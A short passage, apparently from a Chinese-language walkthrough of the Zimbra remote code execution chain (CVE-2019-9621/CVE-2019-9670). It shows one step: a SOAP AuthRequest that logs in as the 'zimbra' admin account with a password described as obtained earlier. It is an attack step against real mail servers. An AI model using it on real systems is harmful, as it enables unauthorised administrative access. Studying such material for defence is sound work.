     <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
       <soap:Header>  
           <context xmlns="urn:zimbra">  
               <userAgent name="ZimbraWebClient" version="5.0.15_GA_2851"/>  
           </context>  
       </soap:Header>  
       <soap:Body>  
         <AuthRequest xmlns="urn:zimbraAccount">  
            <account by="adminName">zimbra</account>  
            <password>上面得到的密码</password>  
         </AuthRequest>  
       </soap:Body>  
    </soap:Envelope>

![](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId29.png)
